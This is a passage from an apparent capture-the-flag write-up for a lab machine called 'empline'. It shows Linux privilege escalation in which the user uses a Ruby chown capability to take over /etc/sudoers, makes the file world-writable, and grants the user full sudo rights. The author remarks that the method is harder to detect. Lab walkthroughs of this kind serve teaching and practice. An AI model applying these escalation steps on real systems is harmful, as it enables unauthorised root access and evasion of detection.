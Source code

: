 **Note:** You can also put `george` for both user id and group id.

After doing so, you can go ahead and read the root flag in `/root`. BUT I want to switch to root and gain full access to the machine.

### Going root

Now there are several ways to switch to root with this capability, but I'm gonna write down what I originally did, which in a real senario is a bit difficulter to detect.

There is a file in linux called `/etc/sudoers` which is the config file for the `sudo` command. As you can remember, our user has no sudo permissions, but if we can modify this file, we can give our user, full sudo permission.

This file originally is not writable and is owned by root, so here's what we do. First we change the ownership of this file to `george` and then change this file's permisisons to be writable. 

The commands to do so are as follows:

~~~
$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002 , "/etc/sudoers")'
$ chmod 666 /etc/sudoers
~~~

Let's run these commands and see the result:

~~~
george@empline:~$ ls -al /etc/sudoers
-r--r----- 1 root root 755 Jan 18  2018 /etc/sudoers
george@empline:~$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002 , "/etc/sudoers")'
george@empline:~$ chmod 666 /etc/sudoers
george@empline:~$ ls -l /etc/sudoers
-rw-rw-rw- 1 george george 755 Jan 18  2018 /etc/sudoers
~~~

As you can see, this file is now owned by user `george` and is writable. Now we can use `vim` or `nano` to modify this file. You should add the following line to where I have shown in the screenshot:

~~~
george  ALL=(ALL:ALL) ALL
~~~
